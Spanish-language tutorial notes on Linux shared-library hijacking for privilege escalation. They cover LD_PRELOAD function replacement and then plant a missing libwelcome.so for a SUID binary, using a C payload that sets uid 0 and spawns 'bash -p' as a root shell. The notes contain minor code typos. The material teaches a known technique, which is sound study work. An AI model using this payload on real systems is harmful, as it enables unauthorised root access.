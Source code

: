----
- Tags: #escalada #teoria #practica 
---

# Secuestro de la biblioteca de objetos compartidos enlazados dinámicamente

Las **bibliotecas compartidas** son archivos que contiene funciones y recursos utilizados por múltiples programas. Cuando un programa requiere una función de una biblioteca compartida, el sistema operativo busca la biblioteca y enlaza dinámica mente la función requerida durante la ejecución del programa. Sin embargo, si el sistema no encuentra la biblioteca en las rutas predeterminadas, puede buscarla en otros directorios. 

Un atacante puede aprovechar esta situación creando una **biblioteca compartida maliciosa** con el mismo nombre que la biblioteca legítima y colocándola en un directorio donde el sistema la buscará. Cuando el programa intenta cargar la biblioteca, el sistema cargara la versión malicioso en lugar de la legítima, permitiendo al atacante ejecutar código malicioso con los privilegios del programa víctima. 

# Escalada 

Para ver las funciones que se usan en un script de una biblioteca de objetos compartida podríamos hacer uso del comando **ldd** o de de un script llamado [uftrace](https://github.com/namhyung/uftrace) (Utilizado para analizar la ejecución de un programa escrito en C/C++) para leer las mismas...

```bash 
ldd {binary}

uftrace --force -a {binary}
```

Una vez que tengamos las funciones que se usan, por ejemplo del script: 

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char const *argv[]){
    srand(time(NULL));
    printf("%d\n", rand());
    return 0; 
}
```

```bash
uftrace --force -a {binary}
# 1838698392
# DURATION     TID     FUNCTION
#   5.840 us [110824] | time();
#   1.308 us [110824] | srand();
#   0.433 us [110824] | rand();
# 206.138 us [110824] | printf("%d\n") = 11;
```

Vemos que se nos listan las funciones utilizadas en el script, por lo que ahora intentando realizar un secuestro de la biblioteca de objetos compartidos enlazados dinámicamente podríamos replicar la función *"rand"* que se usa en el script para realizar un código que nos interese. 

Por lo que para poder realizar esta "suplantación" de función, las firmas deben coincidir (Las firmas son el conjunto de lo que la función **retorna**, como se **llama** y los **argumentos** que recibe)

Es decir, a la hora de ejecutar el binario, por detrás el enlazador dinámico  por detrás carga las bibliotecas compartidas necesarias para que este programa funcione correctamente, ahora, este enlazador dinámico lo que hace es tomar como prioritario una **variable de entorno** llamada **LD_PRELOAD**, por lo que si esta variable lo igualamos a un binario de una biblioteca compartida que hayamos creado previamente, podríamos manipular el código para que se ejecute las instrucciones que quisiéramos.

```c
int rand(void){
	return 777; 
}
```

Una vez creado el código malicioso (En este ejemplo alteramos el binario original para que en lugar de retornar un número random retorne siempre *777*) simplemente falta compilarlo como **biblioteca compartida** con el comando **gcc -shared -fPIC {file.c} -o {binary_name}** y exportar la variable de entorno. 

```bash
gcc -shared -fPIC malicious.c -o randomname 

LD_PRELOAD=randomname ./{binary}
```

---

Otro ejemplo un poco más complejo es el siguiente. 

Tenemos un binario en la ruta **/usr/bin/welcome** el cual no se puede ejecutar por un error y es SUID. El error que nos tira es *"libwelcome.so: cannot open shared object file: No such file or directory"*. 

En este caso si jugamos con **ldd /usr/bin/welcome** nos devuelve **libwelcome.so => not found** y en este caso si intentamos explotar este secuestro de la biblioteca con con la variable *LD_PRELOAD* no va a funcionar.

En estas ocasiones tenemos otras vías, la primera, es ver si tenemos permisos de escritura en la ruta **/etc/ld.so.conf.d** para crear una archivo de configuración para indicar a que ruta tiene que ir el binario para encontrar la biblioteca en cuestión. También podemos ver a que rutas se dirige a la hora de buscar dicho recurso en las configuraciones. 

En el ejemplo dado, el binario nos arroja error dado que no encuentra la ruta, por lo que vemos que dentro de la ruta **/etc/ld.so.conf.d** existe un archivo de configuración llamado *custom.conf* el cual contiene una ruta inexistente como "*/home/dobliuw/lib*", pero en el home del user dobliuw no existe la carpeta *lib*, por lo que podríamos crear la carpeta y así mismo el script en c malicioso para **convertirlo** en una **biblioteca compartida**. 

```bash
cd /home/dobliuw 

mkdir lib 

cd !$ 

nano malicious.c 
```

#### malicious.c 
```c
#inlcude <stdio.h> 
#include <unistd.h>

int welcome(){
	setuid(0);
	setgid(0);
	system("bash -p");
	return 0;
}
```
#### PD: La función se llama welcome ya que podríamos ponerle un nombre típico como main y al compilar el binario como biblioteca compartida y ejecutar el binario inicial nos arrojaría un warning de que no se encuentra la función "welcome" de la librería, por lo que nos da a entender que la función que se usa es welcome. 

Ahora solo quedaría convertir dicho script en un binario de **biblioteca compartida** con `gcc -shared -fPIC malicious.c libwelcome.so`. 

Por lo que ahora al ejecutar el binario inicial (*/usr/bin/welcome*) al contener permisos SUID y habiendo *secuestrado la biblioteca de objetos compartidos enlazados dinámicamente* con un script el cual setea el uid en 0 para asegurarnos ser root nos lanzaría una consola privilegiada como root. 



